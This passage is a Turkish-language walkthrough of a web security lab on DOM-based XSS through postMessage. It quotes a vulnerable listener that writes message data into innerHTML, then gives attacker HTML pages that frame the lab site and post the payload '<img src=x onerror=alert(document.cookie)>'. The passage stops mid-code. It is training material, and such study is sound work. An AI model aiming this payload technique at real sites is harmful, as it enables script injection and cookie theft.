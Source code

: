 Sitenin arka planında neler olup bittiğini görebilmek için öncelikle sayfa kaynağını görüntüleyelim. Sayfa kaynağını görüntülediğimizde 52. satırda gelen verinin data’sının innerHTML ile ekrana verilmekte olduğunu görebiliriz.

```
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
    })
</script>
```

Bu lab’ı çözerken de yukarıda gösterdiğimiz örnekler üzerinden ilerleyebiliriz. Oluşturacağımız html sayfasında değiştirmemiz gerken kısım target sitesinin adresidir. Burada lab ortamının adresini yazmalıyız.

```
<html>
    <iframe id="target" src="">

    </iframe>

    <script>
        var target = document.getElementById('target');

        target.addEventListener('load', function(){
            //buradan iframe içerisine bir mesaj göndereceğiz
            target.contentWindow.postMessage("asdasd",'*');
            //postMessage frame'ler arası iletişimi sağlamaktaydı.
        });
        target.src=
        "https://0add005f042c0f178189085900c9006b.web-security-academy.net/"
    </script>
</html>
```

Oluşturduğumuz HTML sayfası sayesinde hedef web uygulamasını iframe ile açabildik.

![Untitled](0x09%20770e9a14727f44d080ea40a453968369/Untitled%2010.png)

Bu kısımdan sonra da lab’ın çözülmesi için yapmamız gereken ise print() fonksiyonunu çağırmak ya da document.cookie gibi bir çıktı elde etmek olacaktır. Buna yönelik bir XSS Payload’ı yazabiliriz.

```
<html>
    <iframe id="target" src="">

    </iframe>

    <script>
        var target = document.getElementById('target');

        target.addEventListener('load', function(){
            //buradan iframe içerisine bir mesaj göndereceğiz
            target.contentWindow.postMessage(
                            "<img src=x onerror=alert(document.cookie)>",'*');
             //postMessage frame'ler arası iletişimi sağlamaktaydı.
```